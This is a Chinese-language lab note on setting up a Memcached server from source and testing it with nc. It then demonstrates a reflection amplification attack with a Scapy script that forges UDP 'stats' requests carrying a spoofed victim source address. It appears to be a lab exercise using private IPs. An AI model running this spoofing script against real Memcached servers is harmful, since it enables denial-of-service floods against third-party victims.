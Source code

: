 ### Memcached服务器环境搭建

Memcached反射放大攻击实验

#### 一、服务器搭建

1. 安装

   ~~~
   安装libevent
   tar -zxvf libevent-1.3.tar.gz
   ./configure --prefix=/opt/libevent
   make && make install
   测试
   ls -al /opt/libevent-2.0.21/lib | grep libevent
   安装memcached
   tar -zxvf memcached-1.4.15.tar.gz 
   ./configure  --prefix=/opt/memcached   --with-libevent=/opt/libevent
   make && make install
   ~~~

   

2. 启动

   ~~~
   /opt/memcached/bin/memcached  -d -m 1000 -u root -l 192.168.19.129 -p 11211 -c 256 -P /tmp/memcached.pid
   ~~~

   -d       选项是启动一个守护进程
   -m      是分配给Memcache使用的内存数量，单位是MB，我这里是10MB
   -u       是运行Memcache的用户，我这里是root
   -l        是监听的服务器IP地址，如果有多个地址的话，我这里指定了服务器的IP地址192.168.19.129
   -p       是设置Memcache监听的端口，我这里设置了11211（默认），最好是1024以上的端口
   -c       选项是最大运行的并发连接数，默认是1024，我这里设置了256，按照你服务器的负载量来设定
   -P       是设置保存Memcache的pid文件，我这里是保存在 /tmp/memcached.pid

#### 二、测试

~~~
/opt/memcached/bin/memcached  -d -m 1000 -u root -l 192.168.19.129 -c 256 -P /tmp/memcached.pid
~~~

1. TCP

   ~~~
   echo "stats" | nc -rvv ip port
   ~~~

2. UDP

   ~~~
   python -c 'print"\x01\x00\x00\x00\x00\x01\x00\x00stats\r\n"' | nc -rvvu ip port
   ~~~

#### 三、攻击

脚本攻击

```
#coding=utf-8
from scapy.all import *


def attack(vuln_host,drdos_host,port):
    send_data = b"\x01\x00\x00\x00\x00\x01\x00\x00stats\r\n"
    #下面这句话的意思是伪造受害者向存在memcached漏洞的服务器发起UDP请求，源端口是29284，目标端口是port
    packet = IP(src=vuln_host,dst=drdos_host) / UDP(sport=11211,dport=port) / send_data
    send(packet)


if __name__ == '__main__':
    attack('192.168.19.132','192.168.19.129',11211)
```

#### 参考链接

<https://blog.csdn.net/honyer455/article/details/88018437>